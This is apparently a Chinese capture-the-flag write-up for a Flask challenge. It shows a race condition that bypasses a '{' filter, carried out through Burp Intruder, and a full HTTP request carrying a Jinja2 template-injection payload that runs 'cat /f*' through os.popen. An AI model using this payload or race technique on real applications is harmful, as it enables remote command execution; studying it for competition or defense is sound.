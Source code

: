 ```python
    return render_template("index.html", status=status)


@app.route('/send', methods=['POST'])
def write_message():
    filename = pwd + "/tmp/message.txt"
    message = request.form['message']

    f = open(filename, 'w')
    f.write(message) 
    f.close()

    return redirect('index?status=Send successfully!!')

@app.route('/read', methods=['GET'])
def read_message():
    if "{" not in readmsg():
        show = show_msg.replace("{{message}}", readmsg())
        return render_template_string(show)
    return 'waf!!'


if __name__ == '__main__':
    app.run(host = '0.0.0.0', port = 5000)
```

将下列两段请求包内容同时发送到intruder，payload位置分别为：

Post请求的?a\=1（1为payload位置）

Get请求底部的a\=1 (1为payload位置)

爆破时选择数字，随机数字，范围1-10，爆破次数1000次即可

在预览界面即可看到flag

```1c
POST /app/send?a\=1 HTTP/1.1

Host: node1.hgame.vidar.club:32076

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.138 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Language: zh-CN,zh;q\=0.9

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 115  

Connection: close

Referer: http://node1.hgame.vidar.club:32076/app/index

Upgrade-Insecure-Requests: 1

message={{lipsum.__globals__.__builtins__.__import__('os').popen('cat /f*').read()}}
```
